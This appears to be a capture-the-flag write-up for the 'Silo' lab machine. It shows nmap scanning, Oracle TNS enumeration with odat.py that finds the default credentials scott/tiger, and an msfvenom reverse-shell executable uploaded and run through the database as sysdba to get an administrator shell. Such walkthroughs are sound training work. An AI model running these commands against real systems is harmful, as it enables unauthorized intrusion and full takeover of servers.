 # Silo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.188 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:12 EDT
Warning: 10.129.95.188 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.188
Host is up (0.013s latency).
Not shown: 65350 closed tcp ports (conn-refused), 170 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
```

Lots of ports, including some I'm not familiar with like port 1521.

### Oracle RCE

I initially ran a few directory scans and SMB enumeration, but they all returned nothing interesting. So I decided to scan port 1521 in detail because I normally don't see that one.

```
$ sudo nmap -p 1521 -sC -sV -O -T4 10.129.95.188 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:15 EDT
Nmap scan report for 10.129.95.188
Host is up (0.0073s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

So this was an Oracle port. Based on Hacktricks, we can try using `odat.py` to attack this.

{% embed url="https://github.com/quentinhardy/odat" %}

We can run the enumeration to find all SIDs and possible passwords before attacking it.&#x20;

```
$ ./odat.py all -s 10.129.95.188 -p 1521 
<TRUNCATED OUTPUT>
[+] SIDs found on the 10.129.95.188:1521 server: XE
[+] Service Name(s) found on the 10.129.95.188:1521 server: XE,XEXDB
[+] Valid credentials found: scott/tiger. Continue...                  
```

We found the database and also some credentials, which I think is enough to exploit this system easily. With these, we can upload a reverse shell onto the server rather easily.&#x20;

First, we can create a reverse shell via `msfvenom`:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o rev.exe
```

Then we can run the following commands:

{% code overflow="wrap" %}
```
$ ./odat.py utlfile -s 10.129.95.188 -d XE -U scott -P tiger --sysdba --putFile \\temp rev.exe rev.exe

[1] (10.129.95.188:1521): Put the rev.exe local file in the \temp folder like rev.exe on the 10.129.95.188 server
[+] The rev.exe file was created on the \temp directory on the 10.129.95.188 server like the rev.exe file

$ ./odat.py externaltable -s 10.129.95.188 -p 1521 -d XE -U scott -P tiger --sysdba --exec \\temp rev.exe         

[1] (10.129.95.188:1521): Execute the rev.exe command stored in the \temp path
```
{% endcode %}

We would gain a reverse shell as the administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
